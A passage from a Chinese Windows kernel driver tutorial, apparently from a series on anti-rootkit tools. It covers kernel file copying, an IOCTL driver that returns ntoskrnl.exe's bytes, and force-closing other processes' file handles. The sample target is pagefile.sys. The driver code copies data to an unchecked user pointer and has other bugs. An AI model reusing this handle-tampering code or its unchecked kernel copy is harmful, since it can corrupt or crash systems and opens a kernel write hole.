NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    UNICODE_STRING ustrScrFile;
    ULONG ulBufferSize = 40960;
    LARGE_INTEGER liOffset = { 0 };


    // 初始化需要读取的文件名
    RtlInitUnicodeString(&ustrScrFile, L"\\??\\C:\\lyshark.exe");

    // 分配非分页内存
    PUCHAR pBuffer = ExAllocatePool(NonPagedPool, ulBufferSize);

    // 读取文件
    MyReadFile(ustrScrFile, liOffset, pBuffer, &ulBufferSize);

    // 输出文件前16个字节
    for (size_t i = 0; i < 16; i++)
    {
        DbgPrint("%02X \n", pBuffer[i]);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行这段代码，并循环输出`lyshark.exe`文件的头16个字节的数据，效果图如下所示；



文件写入`MyWriteFile()`与读取类似，如下通过运用文件读写实现了`文件拷贝`功能，实现完整代码如下所示；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 读取文件数据
BOOLEAN MyReadFile(UNICODE_STRING ustrFileName, LARGE_INTEGER liOffset, PUCHAR pReadData, PULONG pulReadDataSize)
{
    HANDLE hFile = NULL;
    IO_STATUS_BLOCK iosb = { 0 };
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL,FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN,FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 初始化
    RtlZeroMemory(&iosb, sizeof(iosb));

    // 读入文件
    status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, pReadData, *pulReadDataSize, &liOffset, NULL);
    if (!NT_SUCCESS(status))
    {
        *pulReadDataSize = iosb.Information;
        ZwClose(hFile);
        return FALSE;
    }

    // 获取实际读取的数据
    *pulReadDataSize = iosb.Information;

    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

// 向文件写入数据
BOOLEAN MyWriteFile(UNICODE_STRING ustrFileName, LARGE_INTEGER liOffset, PUCHAR pWriteData, PULONG pulWriteDataSize)
{
    HANDLE hFile = NULL;
    IO_STATUS_BLOCK iosb = { 0 };
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_WRITE, &objectAttributes, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN_IF, FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 初始化
    RtlZeroMemory(&iosb, sizeof(iosb));

    // 写出文件
    status = ZwWriteFile(hFile, NULL, NULL, NULL, &iosb, pWriteData, *pulWriteDataSize, &liOffset, NULL);
    if (!NT_SUCCESS(status))
    {
        *pulWriteDataSize = iosb.Information;
        ZwClose(hFile);
        return FALSE;
    }

    // 获取实际写入的数据
    *pulWriteDataSize = iosb.Information;
    
    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 文件读写
    UNICODE_STRING ustrScrFile, ustrDestFile;
    RtlInitUnicodeString(&ustrScrFile, L"\\??\\C:\\lyshark.exe");
    RtlInitUnicodeString(&ustrDestFile, L"\\??\\C:\\LyShark\\new_lyshark.exe");

    ULONG ulBufferSize = 40960;
    ULONG ulReadDataSize = ulBufferSize;
    LARGE_INTEGER liOffset = { 0 };

    // 分配非分页内存
    PUCHAR pBuffer = ExAllocatePool(NonPagedPool, ulBufferSize);

    do
    {
        // 读取文件
        ulReadDataSize = ulBufferSize;
        MyReadFile(ustrScrFile, liOffset, pBuffer, &ulReadDataSize);

        // 数据为空则读取结束
        if (0 >= ulReadDataSize)
        {
            break;
        }

        // 写入文件
        MyWriteFile(ustrDestFile, liOffset, pBuffer, &ulReadDataSize);

        // 更新偏移
        liOffset.QuadPart = liOffset.QuadPart + ulReadDataSize;
        DbgPrint("[+] 更新偏移: %d \n", liOffset.QuadPart);

    } while (TRUE);

    // 释放内存
    ExFreePool(pBuffer);
    DbgPrint("[*] 已将文件复制到新目录 \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这段程序，则自动将`C:\\lyshark.exe`盘符下的文件拷贝到`C:\\LyShark\\new_lyshark.exe`目录下，实现效果图如下所示；



#### 8.1.5 实现文件读写传递

通过如上学习相信你已经掌握了如何使用文件读写系列函数了，接下来将封装一个文件读写驱动，应用层接收，驱动层读取；

此驱动部分完整代码如下所示；
```c
#include <ntifs.h>
#include <windef.h>

#define READ_FILE_SIZE_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ALL_ACCESS)
#define READ_FILE_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x801,METHOD_BUFFERED,FILE_ALL_ACCESS)

#define DEVICENAME L"\\Device\\ReadWriteDevice"
#define SYMBOLNAME L"\\??\\ReadWriteSymbolName"

typedef struct
{
    ULONG64 size;      // 读写长度
    BYTE* data;        // 读写数据集
}FileData;

// 获取文件大小
ULONG64 MyGetFileSize(UNICODE_STRING ustrFileName)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;
    FILE_STANDARD_INFORMATION fsi = { 0 };

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL, 0, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取文件大小信息
    status = ZwQueryInformationFile(hFile, &iosb, &fsi, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hFile);
        return 0;
    }

    return fsi.EndOfFile.QuadPart;
}

// 读取文件数据
BOOLEAN MyReadFile(UNICODE_STRING ustrFileName, LARGE_INTEGER liOffset, PUCHAR pReadData, PULONG pulReadDataSize)
{
    HANDLE hFile = NULL;
    IO_STATUS_BLOCK iosb = { 0 };
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN, FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 初始化
    RtlZeroMemory(&iosb, sizeof(iosb));

    // 读入文件
    status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, pReadData, *pulReadDataSize, &liOffset, NULL);
    if (!NT_SUCCESS(status))
    {
        *pulReadDataSize = iosb.Information;
        ZwClose(hFile);
        return FALSE;
    }

    // 获取实际读取的数据
    *pulReadDataSize = iosb.Information;

    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

NTSTATUS DriverIrpCtl(PDEVICE_OBJECT device, PIRP pirp)
{
    PIO_STACK_LOCATION stack;
    stack = IoGetCurrentIrpStackLocation(pirp);
    FileData* FileDataPtr;

    switch (stack->MajorFunction)
    {

    case IRP_MJ_CREATE:
    {
        break;
    }

    case IRP_MJ_CLOSE:
    {
        break;
    }

    case IRP_MJ_DEVICE_CONTROL:
    {
        // 获取应用层传值
        FileDataPtr = pirp->AssociatedIrp.SystemBuffer;
        switch (stack->Parameters.DeviceIoControl.IoControlCode)
        {
            // 读取内存函数
        case READ_FILE_SIZE_CODE:
        {
            LARGE_INTEGER liOffset = { 0 };
            UNICODE_STRING ustrFileSize;
            RtlInitUnicodeString(&ustrFileSize, L"\\??\\C:\\Windows\\system32\\ntoskrnl.exe");

            // 获取文件长度
            ULONG64 ulBufferSize = MyGetFileSize(ustrFileSize);
            DbgPrint("获取文件大小: %I64d Bytes \n", ulBufferSize);

            // 将长度返回应用层
            FileDataPtr->size = ulBufferSize;
            break;
        }

        // 读取文件
        case READ_FILE_CODE:
        {
            FileData ptr;

            LARGE_INTEGER liOffset = { 0 };
            UNICODE_STRING ustrFileSize;
            RtlInitUnicodeString(&ustrFileSize, L"\\??\\C:\\Windows\\system32\\ntoskrnl.exe");

            // 获取文件长度
            ULONG64 ulBufferSize = MyGetFileSize(ustrFileSize);
            DbgPrint("获取文件大小: %I64d Bytes \n", ulBufferSize);

            // 读取内存到缓冲区
            BYTE* pBuffer = ExAllocatePool(NonPagedPool, ulBufferSize);
            MyReadFile(ustrFileSize, liOffset, pBuffer, &ulBufferSize);

            // 返回数据
            FileDataPtr->size = ulBufferSize;
            RtlCopyMemory(FileDataPtr->data, pBuffer, FileDataPtr->size);

            break;
        }
        }

        pirp->IoStatus.Information = sizeof(FileDataPtr);
        break;
    }

    }

    pirp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(pirp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    if (driver->DeviceObject)
    {
        UNICODE_STRING SymbolName;
        RtlInitUnicodeString(&SymbolName, SYMBOLNAME);

        // 删除符号链接
        IoDeleteSymbolicLink(&SymbolName);
        IoDeleteDevice(driver->DeviceObject);
    }
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status = STATUS_SUCCESS;
    PDEVICE_OBJECT device = NULL;
    UNICODE_STRING DeviceName;

    DbgPrint("[LyShark] hello lyshark.com \n");

    // 初始化设备名
    RtlInitUnicodeString(&DeviceName, DEVICENAME);

    // 创建设备
    status = IoCreateDevice(Driver, sizeof(Driver->DriverExtension), &DeviceName, FILE_DEVICE_UNKNOWN, FILE_DEVICE_SECURE_OPEN, FALSE, &device);
    if (status == STATUS_SUCCESS)
    {
        UNICODE_STRING SymbolName;
        RtlInitUnicodeString(&SymbolName, SYMBOLNAME);

        // 创建符号链接
        status = IoCreateSymbolicLink(&SymbolName, &DeviceName);

        // 失败则删除设备
        if (status != STATUS_SUCCESS)
        {
            IoDeleteDevice(device);
        }
    }

    // 派遣函数初始化
    Driver->MajorFunction[IRP_MJ_CREATE] = DriverIrpCtl;
    Driver->MajorFunction[IRP_MJ_CLOSE] = DriverIrpCtl;
    Driver->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DriverIrpCtl;

    // 卸载驱动
    Driver->DriverUnload = UnDriver;

    return STATUS_SUCCESS;
}
```

客户端完整代码如下所示；
```c
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <iostream>

#define READ_FILE_SIZE_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ALL_ACCESS)
#define READ_FILE_CODE CTL_CODE(FILE_DEVICE_UNKNOWN,0x801,METHOD_BUFFERED,FILE_ALL_ACCESS)

typedef struct
{
    DWORD size;      // 读写长度
    BYTE* data;      // 读写数据集
}FileData;

int main(int argc, char* argv[])
{
    // 连接到驱动
    HANDLE handle = CreateFileA("\\??\\ReadWriteSymbolName", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    FileData data;
    DWORD dwSize = 0;

    // 首先得到文件长度
    DeviceIoControl(handle, READ_FILE_SIZE_CODE, 0, 0, &data, sizeof(data), &dwSize, NULL);
    printf("%d \n", data.size);

    // 读取机器码到BYTE字节数组
    data.data = new BYTE[data.size];

    DeviceIoControl(handle, READ_FILE_CODE, &data, sizeof(data), &data, sizeof(data), &dwSize, NULL);
    for (int i = 0; i < data.size; i++)
    {
        printf("0x%02X ", data.data[i]);
    }

    printf("\n");
    getchar();
    CloseHandle(handle);
    return 0;
}
```

通过驱动加载工具将`WinDDK.sys`拉起来，然后启动客户端进程，即可输出`ntoskrnl.exe`的文件数据，如下图所示；



### 8.2 内核解锁与强删文件

在某些时候我们的系统中会出现一些无法被正常删除的文件，如果想要强制删除则需要在驱动层面对其进行解锁后才可删掉，而所谓的解锁其实就是释放掉文件描述符（句柄表）占用，文件解锁的核心原理是通过调用`ObSetHandleAttributes`函数将特定句柄设置为可关闭状态，然后在调用`ZwClose`将其文件关闭，强制删除则是通过`ObReferenceObjectByHandle`在对象上提供相应的权限后直接调用`ZwDeleteFile`将其删除。

在内核中实现解锁和强制删除文件是一种常见的技术，通常用于删除被其他进程占用的文件。下面是一些实现方式：

 - 使用 ZwOpenFile 函数打开文件，并指定 FILE_SHARE_DELETE 标志，这将允许其他进程在文件打开期间进行删除操作。然后，调用 ZwSetInformationFile 函数，将文件句柄作为参数传递给它，并指定 FILE_DISPOSITION_INFORMATION 类型，以删除文件。

 - 使用 NtQuerySystemInformation 函数获取系统进程信息，并枚举每个进程以查找拥有要删除文件的句柄的进程。然后，使用 ZwQuerySystemInformation 函数获取有关进程打开句柄的信息，并枚举每个句柄以查找要删除的文件句柄。一旦找到了该句柄，就可以使用 ZwClose 函数关闭该句柄，并调用 ZwSetInformationFile 函数删除文件。

需要注意的是，强制删除文件可能会引起系统稳定性问题和数据丢失，因此应该谨慎使用，并避免误删重要文件。此外，一些安全软件和操作系统可能会检测到这些操作，并采取防御措施。因此，在实现这些技术时，需要遵循操作系统和安全软件的规定，以确保系统的安全和稳定。

虽此类代码较为普遍，但作为揭秘ARK工具来说也必须要将其分析并讲解一下。



首先封装`lyshark.h`通用头文件，并定义好我们所需要的结构体，以及特定未导出函数的声明，此处的定义部分是微软官方的规范，如果不懂结构具体含义可自行去微软官方查阅参考资料。
```c
#include <ntddk.h>

// -------------------------------------------------------
// 引用微软结构
// -------------------------------------------------------
// 结构体定义
typedef struct _HANDLE_INFO
{
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT  HandleValue;
    ULONG GrantedAccess;
    ULONG64 Object;
    UCHAR Name[256];
} HANDLE_INFO, *PHANDLE_INFO;

HANDLE_INFO HandleInfo[1024];

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    USHORT  UniqueProcessId;
    USHORT  CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT  HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, *PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG64 NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;

typedef enum _OBJECT_INFORMATION_CLASS
{
    ObjectBasicInformation,
    ObjectNameInformation,
    ObjectTypeInformation,
    ObjectAllInformation,
    ObjectDataInformation
} OBJECT_INFORMATION_CLASS, *POBJECT_INFORMATION_CLASS;

typedef struct _OBJECT_BASIC_INFORMATION
{
    ULONG                   Attributes;
    ACCESS_MASK             DesiredAccess;
    ULONG                   HandleCount;
    ULONG                   ReferenceCount;
    ULONG                   PagedPoolUsage;
    ULONG                   NonPagedPoolUsage;
    ULONG                   Reserved[3];
    ULONG                   NameInformationLength;
    ULONG                   TypeInformationLength;
    ULONG                   SecurityDescriptorLength;
    LARGE_INTEGER           CreationTime;
} OBJECT_BASIC_INFORMATION, *POBJECT_BASIC_INFORMATION;

typedef struct _OBJECT_TYPE_INFORMATION
{
    UNICODE_STRING          TypeName;
    ULONG                   TotalNumberOfHandles;
    ULONG                   TotalNumberOfObjects;
    WCHAR                   Unused1[8];
    ULONG                   HighWaterNumberOfHandles;
    ULONG                   HighWaterNumberOfObjects;
    WCHAR                   Unused2[8];
    ACCESS_MASK             InvalidAttributes;
    GENERIC_MAPPING         GenericMapping;
    ACCESS_MASK             ValidAttributes;
    BOOLEAN                 SecurityRequired;
    BOOLEAN                 MaintainHandleCount;
    USHORT                  MaintainTypeList;
    POOL_TYPE               PoolType;
    ULONG                   DefaultPagedPoolCharge;
    ULONG                   DefaultNonPagedPoolCharge;
} OBJECT_TYPE_INFORMATION, *POBJECT_TYPE_INFORMATION;

typedef struct _KAPC_STATE
{
    LIST_ENTRY ApcListHead[2];
    PVOID Process;
    BOOLEAN KernelApcInProgress;
    BOOLEAN KernelApcPending;
    BOOLEAN UserApcPending;
}KAPC_STATE, *PKAPC_STATE;

typedef struct _OBJECT_HANDLE_FLAG_INFORMATION
{
    BOOLEAN Inherit;
    BOOLEAN ProtectFromClose;
}OBJECT_HANDLE_FLAG_INFORMATION, *POBJECT_HANDLE_FLAG_INFORMATION;

typedef struct _LDR_DATA_TABLE_ENTRY64
{
  LIST_ENTRY64 InLoadOrderLinks;
  LIST_ENTRY64 InMemoryOrderLinks;
  LIST_ENTRY64 InInitializationOrderLinks;
  ULONG64 DllBase;
  ULONG64 EntryPoint;
  ULONG64 SizeOfImage;
  UNICODE_STRING FullDllName;
  UNICODE_STRING BaseDllName;
  ULONG Flags;
  USHORT LoadCount;
  USHORT TlsIndex;
  LIST_ENTRY64 HashLinks;
  ULONG64 SectionPointer;
  ULONG64 CheckSum;
  ULONG64 TimeDateStamp;
  ULONG64 LoadedImports;
  ULONG64 EntryPointActivationContext;
  ULONG64 PatchInformation;
  LIST_ENTRY64 ForwarderLinks;
  LIST_ENTRY64 ServiceTagLinks;
  LIST_ENTRY64 StaticLinks;
  ULONG64 ContextInformation;
  ULONG64 OriginalBase;
  LARGE_INTEGER LoadTime;
} LDR_DATA_TABLE_ENTRY64, *PLDR_DATA_TABLE_ENTRY64;

// -------------------------------------------------------
// 导出函数定义
// -------------------------------------------------------

NTKERNELAPI NTSTATUS ObSetHandleAttributes
(
    HANDLE Handle,
    POBJECT_HANDLE_FLAG_INFORMATION HandleFlags,
    KPROCESSOR_MODE PreviousMode
);

NTKERNELAPI VOID KeStackAttachProcess
(
    PEPROCESS PROCESS,
    PKAPC_STATE ApcState
);

NTKERNELAPI VOID KeUnstackDetachProcess
(
    PKAPC_STATE ApcState
);

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId
(
    IN HANDLE ProcessId,
    OUT PEPROCESS *Process
);

NTSYSAPI NTSTATUS NTAPI ZwQueryObject
(
    HANDLE  Handle,
    ULONG ObjectInformationClass,
    PVOID ObjectInformation,
    ULONG ObjectInformationLength,
    PULONG  ReturnLength OPTIONAL
);

NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation
(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG  ReturnLength
);

NTSYSAPI NTSTATUS NTAPI ZwDuplicateObject
(
    HANDLE    SourceProcessHandle,
    HANDLE    SourceHandle,
    HANDLE    TargetProcessHandle OPTIONAL,
    PHANDLE   TargetHandle OPTIONAL,
    ACCESS_MASK DesiredAccess,
    ULONG   HandleAttributes,
    ULONG   Options
);

NTSYSAPI NTSTATUS NTAPI ZwOpenProcess
(
    PHANDLE       ProcessHandle,
    ACCESS_MASK     AccessMask,
    POBJECT_ATTRIBUTES  ObjectAttributes,
    PCLIENT_ID      ClientId
);

#define STATUS_INFO_LENGTH_MISMATCH 0xC0000004
```

接下来将具体分析如何解锁指定文件的句柄表，强制解锁文件句柄表，大体步骤如下所示。

 - 1.首先调用`ZwQuerySystemInformation`的16功能号`SystemHandleInformation`来枚举系统里的句柄。
 - 2.通过`ZwOpenProcess()`打开拥有此句柄的进程，通过`ZwDuplicateObject`创建一个新的句柄，并把此句柄复制到自己的进程内。
 - 3.通过调用`ZwQueryObject`并传入`ObjectNameInformation`查询到句柄的名称，并将其放入到`pNameInfo`变量内。
 - 4.循环这个过程并在每次循环中通过`strstr()`判断是否是我们需要关闭的文件名，如果是则调用`ForceCloseHandle`强制解除占用。
 - 5.此时会进入到`ForceCloseHandle`流程内，通过`KeStackAttachProcess`附加到进程内，并调用`ObSetHandleAttributes`将句柄设置为可关闭状态。
 - 6.最后调用`ZwClose`关闭句柄占用，并`KeUnstackDetachProcess`脱离该进程。

实现代码流程非常容易理解，此类功能也没有其他别的写法了一般也就这种，但是还是需要注意这些内置函数的参数传递，这其中`ZwQuerySystemInformation()`一般用于查询系统进程等信息居多，但通过对`SystemInformationClass`变量传入不同的参数可实现对不同结构的枚举工作，具体的定义可去查阅微软定义规范；
```c
NTSTATUS WINAPI ZwQuerySystemInformation(
  _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,      // 传入不同参数则输出不同内容
  _Inout_   PVOID                    SystemInformation,           // 输出数据
  _In_      ULONG                    SystemInformationLength,     // 长度
  _Out_opt_ PULONG                   ReturnLength                 // 返回长度
);
```
函数`ZwDuplicateObject()`，该函数例程用于创建一个句柄，该句柄是指定源句柄的副本，此函数的具体声明部分如下；
```c
NTSYSAPI NTSTATUS ZwDuplicateObject(
  [in]            HANDLE      SourceProcessHandle,    // 要复制的句柄的源进程的句柄。
  [in]            HANDLE      SourceHandle,           // 要复制的句柄。
  [in, optional]  HANDLE      TargetProcessHandle,    // 要接收新句柄的目标进程的句柄。
  [out, optional] PHANDLE     TargetHandle,           // 指向例程写入新重复句柄的 HANDLE 变量的指针。
  [in]            ACCESS_MASK DesiredAccess,          // 一个ACCESS_MASK值，该值指定新句柄的所需访问。
  [in]            ULONG       HandleAttributes,       // 一个 ULONG，指定新句柄的所需属性。 
  [in]            ULONG       Options                 // 一组标志，用于控制重复操作的行为。
);
```
函数`ZwQueryObject()`其可以返回特定的一个对象参数，此函数尤为注意第二个参数，当下我们传入的是`ObjectNameInformation`则代表需要取出对象名称，而如果使用`ObjectTypeInformation`则是返回对象类型，该函数微软定义如下所示；
```c
NTSYSAPI NTSTATUS ZwQueryObject(
  [in, optional]  HANDLE                   Handle,                        // 要获取相关信息的对象句柄。
  [in]            OBJECT_INFORMATION_CLASS ObjectInformationClass,        // 该值确定 ObjectInformation 缓冲区中返回的信息的类型。
  [out, optional] PVOID                    ObjectInformation,             // 指向接收请求信息的调用方分配缓冲区的指针。
  [in]            ULONG                    ObjectInformationLength,       // 指定 ObjectInformation 缓冲区的大小（以字节为单位）。
  [out, optional] PULONG                   ReturnLength                   // 指向接收所请求密钥信息的大小（以字节为单位）的变量的指针。 
);
```
而对于`ForceCloseHandle`函数中，需要注意的只有一个`ObSetHandleAttributes`该函数微软并没有格式化文档，但是也并不影响我们使用它，如下最需要注意的是`PreviousMode`变量，该变量如果传入`KernelMode`则是内核模式，传入`UserMode`则代表用户模式，为了权限最大化此处需要写入`KernelMode`模式；
```c
NTSYSAPI NTSTATUS ObSetHandleAttributes(
  HANDLE Handle,                                        // 传入文件句柄
  POBJECT_HANDLE_FLAG_INFORMATION HandleFlags,          // OBJECT_HANDLE_FLAG_INFORMATION标志
  KPROCESSOR_MODE PreviousMode                          // 指定运行级别KernelMode
)
```
实现文件解锁，该驱动程序不仅可用于解锁应用层程序，也可用于解锁驱动，如下代码中我们解锁`pagefile.sys`程序的句柄占用；
```c
#include "lyshark.h"

// 根据PID得到EProcess
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
        return eprocess;
    else
        return NULL;
}

// 将uncode转为char*
VOID UnicodeStringToCharArray(PUNICODE_STRING dst, char *src)
{
    ANSI_STRING string;
    if (dst->Length > 260)
    {
        return;
    }

    RtlUnicodeStringToAnsiString(&string, dst, TRUE);
    strcpy(src, string.Buffer);
    RtlFreeAnsiString(&string);
}

// 强制关闭句柄
VOID ForceCloseHandle(PEPROCESS Process, ULONG64 HandleValue)
{
    HANDLE h;
    KAPC_STATE ks;
    OBJECT_HANDLE_FLAG_INFORMATION ohfi;

    if (Process == NULL)
    {
        return;
    }
    // 验证进程是否可读写
    if (!MmIsAddressValid(Process))
    {
        return;
    }

    // 附加到进程
    KeStackAttachProcess(Process, &ks);
    h = (HANDLE)HandleValue;
    ohfi.Inherit = 0;
    ohfi.ProtectFromClose = 0;

    // 设置句柄为可关闭状态
    ObSetHandleAttributes(h, &ohfi, KernelMode);

    // 关闭句柄
    ZwClose(h);

    // 脱离附加进程
    KeUnstackDetachProcess(&ks);

    DbgPrint("EP = [ %d ] | HandleValue = [ %d ] 进程句柄已被关闭 \n",Process,HandleValue);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    PVOID Buffer;
    ULONG BufferSize = 0x20000, rtl = 0;
    NTSTATUS Status, qost = 0;
    NTSTATUS ns = STATUS_SUCCESS;
    ULONG64 i = 0;
    ULONG64 qwHandleCount;

    SYSTEM_HANDLE_TABLE_ENTRY_INFO *p;
    OBJECT_BASIC_INFORMATION BasicInfo;
    POBJECT_NAME_INFORMATION pNameInfo;

    ULONG ulProcessID;
    HANDLE hProcess;
    HANDLE hHandle;
    HANDLE hDupObj;
    CLIENT_ID cid;
    OBJECT_ATTRIBUTES oa;
    CHAR szFile[260] = { 0 };

    Buffer = ExAllocatePoolWithTag(NonPagedPool, BufferSize, "LyShark");
    memset(Buffer, 0, BufferSize);

    // SystemHandleInformation
    Status = ZwQuerySystemInformation(16, Buffer, BufferSize, 0);
    while (Status == STATUS_INFO_LENGTH_MISMATCH)
    {
        ExFreePool(Buffer);
        BufferSize = BufferSize * 2;
        Buffer = ExAllocatePoolWithTag(NonPagedPool, BufferSize, "LyShark");
        memset(Buffer, 0, BufferSize);
        Status = ZwQuerySystemInformation(16, Buffer, BufferSize, 0);
    }

    if (!NT_SUCCESS(Status))
    {
        return;
    }

    // 获取系统中所有句柄表
    qwHandleCount = ((SYSTEM_HANDLE_INFORMATION *)Buffer)->NumberOfHandles;

    // 得到句柄表的SYSTEM_HANDLE_TABLE_ENTRY_INFO结构
    p = (SYSTEM_HANDLE_TABLE_ENTRY_INFO *)((SYSTEM_HANDLE_INFORMATION *)Buffer)->Handles;

    // 初始化HandleInfo数组
    memset(HandleInfo, 0, 1024 * sizeof(HANDLE_INFO));

    // 开始枚举句柄
    for (i = 0; i<qwHandleCount; i++)
    {
        ulProcessID = (ULONG)p[i].UniqueProcessId;
        cid.UniqueProcess = (HANDLE)ulProcessID;
        cid.UniqueThread = (HANDLE)0;
        hHandle = (HANDLE)p[i].HandleValue;

        // 初始化对象结构
        InitializeObjectAttributes(&oa, NULL, 0, NULL, NULL);

        // 通过句柄信息打开占用进程
        ns = ZwOpenProcess(&hProcess, PROCESS_DUP_HANDLE, &oa, &cid);

        // 打开错误
        if (!NT_SUCCESS(ns))
        {
            continue;
        }

        // 创建一个句柄，该句柄是指定源句柄的副本。
        ns = ZwDuplicateObject(hProcess, hHandle, NtCurrentProcess(), &hDupObj, PROCESS_ALL_ACCESS, 0, DUPLICATE_SAME_ACCESS);
        if (!NT_SUCCESS(ns))
        {
            continue;
        }

        // 查询对象句柄的信息并放入BasicInfo
        ZwQueryObject(hDupObj, ObjectBasicInformation, &BasicInfo, sizeof(OBJECT_BASIC_INFORMATION), NULL);

        // 得到对象句柄的名字信息
        pNameInfo = ExAllocatePool(PagedPool, 1024);
        RtlZeroMemory(pNameInfo, 1024);

        // 查询对象信息中的对象名，并将该信息保存到pNameInfo中
        qost = ZwQueryObject(hDupObj, ObjectNameInformation, pNameInfo, 1024, &rtl);

        // 获取信息并关闭句柄
        UnicodeStringToCharArray(&(pNameInfo->Name), szFile);
        ExFreePool(pNameInfo);
        ZwClose(hDupObj);
        ZwClose(hProcess);

        // 检查句柄是否被占用,如果被占用则关闭文件并删除
        if (strstr(_strlwr(szFile), "pagefile.sys"))
        {
            PEPROCESS ep = LookupProcess((HANDLE)(p[i].UniqueProcessId));

            // 占用则强制关闭
            ForceCloseHandle(ep, p[i].HandleValue);
            ObDereferenceObject(ep);
        }
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这段驱动程序，则会将`pagefile.sys`内核文件进行解锁，输出效果如下所示；



聊完了文件解锁功能，接下来将继续探讨如何实现`强制删除`文件的功能，文件强制删除的关键在于`ObReferenceObjectByHandle`函数，该函数可在对象句柄上提供访问验证，并授予访问权限返回指向对象的正文的相应指针，当有了指定的权限以后则可以直接调用`ZwDeleteFile()`将文件强制删除。

在调用初始化句柄前提之下需要先调用`KeGetCurrentIrql()`函数，该函数返回当前`IRQL`级别，那么什么是IRQL呢?

